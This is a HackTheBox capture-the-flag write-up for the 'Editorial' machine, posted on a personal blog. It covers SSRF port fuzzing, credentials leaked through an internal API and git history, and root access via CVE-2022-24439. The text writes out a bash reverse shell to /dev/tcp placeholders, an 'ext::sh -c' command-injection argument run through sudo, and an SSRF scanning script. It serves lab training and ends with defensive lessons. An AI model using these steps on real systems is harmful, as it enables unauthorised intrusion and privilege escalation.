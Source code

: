 ```yaml
---

layout: post
title: "Exploiting SSRF and Privilege Escalation in Editorial"
author: "0x5t"
catalog: true
header-img: "img/post-bg-digital-native.jpg"
header-mask: 0.4
tags:

- Web Exploitation
- SSRF
- Privilege Escalation
- Git Enumeration
- HackTheBox

---
```


# Editorial Writeup

## Overview

**Machine Name:** Editorial\
**Date:** 10th Oct 2024\
**Difficulty:** Easy\

## Synopsis

The **Editorial** machine is an **easy** Linux-based challenge featuring a publishing web application vulnerable to **Server-Side Request Forgery (SSRF)**. The vulnerability is exploited to access an internal API, which reveals credentials leading to **SSH access**. Further enumeration discloses a **Git repository** containing credentials for another user. Root access is achieved via **CVE-2022-24439** and **sudo misconfigurations**.

## Skills Required

- Linux Command Line
- Web Enumeration
- Basic Scripting

## Skills Learned

- Server-Side Request Forgery (SSRF)
- Git Enumeration
- Basic Scripting

---

## Enumeration

### Nmap Scan

Scanning the target reveals **two open ports**:

- **Port 22** - SSH (OpenSSH 8.9p1 Ubuntu)
- **Port 80** - Nginx Web Server

#### Nmap Command:

```bash
nmap -p- --min-rate=1000 -T4 -Pn 10.10.11.20
```

Adding the domain to `/etc/hosts`:

```bash
echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts
```

### HTTP Enumeration

Visiting **[http://editorial.htb](http://editorial.htb)**, we find a **publishing service website** with a "Publish with us" page that includes a **cover URL** field.

#### SSRF Exploitation

Testing for SSRF by inputting a **local IP address** and starting a Netcat listener:

```bash
nc -lnvp 5555
```

A successful **200 OK** response and Netcat callback confirm **SSRF vulnerability**.

---

## Foothold

### Internal Service Discovery

Using **Burp Suite Intruder** with a **common HTTP ports wordlist**, we identify an **internal API running on port 5000**. We then use a **Python script** to fuzz all **65535 ports**:

```python
import requests
for port in range(1, 65535):
    data_post = {"bookurl": f"http://127.0.0.1:{port}"}
    try:
        r = requests.post("http://editorial.htb/upload-cover", data=data_post)
        if not r.text.strip().endswith('.jpeg'):
            print(f"{port} --- {r.text}")
    except:
        pass
```

**Findings:** Port **5000** does not return `.jpeg` responses, indicating an API endpoint.

### Extracting Credentials

By querying the API at `/api/latest/metadata/messages/authors`, we retrieve **login credentials** for `dev`:

```json
{
  "Username": "dev",
  "Password": "dev080217_devAPI!@"
}
```

### SSH Access

```bash
ssh dev@10.10.11.20
```

User flag retrieved.

---

## Lateral Movement

### Git Repository Enumeration

In the `dev` home directory, we find a `.git` folder. Checking commit history:

```bash
git log
git show <commit-id>
```

We extract new credentials for user `prod`:

```json
{
  "Username": "prod",
  "Password": "080217_Producti0n_2023!@"
}
```

Switching users:

```bash
su prod
```

### Sudo Privileges Check

```bash
sudo -l
```

The `prod` user has **root execution rights** for:

```bash
/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

---

## Privilege Escalation

### Exploiting CVE-2022-24439

This script imports the `Repo` class from **GitPython**, making it vulnerable to **CVE-2022-24439**.

#### Crafting the Exploit

Creating a **reverse shell payload**:

```bash
echo "bash -i >& /dev/tcp/{{IP}}/{{PORT}} 0>&1" > /tmp/shell.sh
chmod +x /tmp/shell.sh
```

Starting a **Netcat listener**:

```bash
nc -lnvp 4444
```

Executing the **privileged Python script**:

```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/shell.sh'
```

This grants a **root shell**.

### Root Flag

```bash
cat /root/root.txt
```

**Root access achieved. Machine pwned!** 🎉

---

## Summary

1. **SSRF** was used to enumerate internal services.
2. **API exploitation** revealed `dev` user credentials.
3. **Git enumeration** disclosed `prod` user credentials.
4. **CVE-2022-24439** was leveraged for **privilege escalation**.
5. **Root access** was gained via **sudo misconfiguration**.

**Lessons Learned:**

- Importance of **restricting internal APIs**.
- **SSRF vulnerabilities** can expose sensitive data.
- **Git repositories** should not store credentials.
- **Improper sudo configurations** can lead to privilege escalation.

---

## Additional Resources

- [CVE-2022-24439](https://nvd.nist.gov/vuln/detail/CVE-2022-24439)
- [Git Security Best Practices](https://git-scm.com/docs/git-security)
- [Burp Suite Intruder Guide](https://portswigger.net/burp/documentation/desktop/tools/intruder)

### End of Writeup ✅

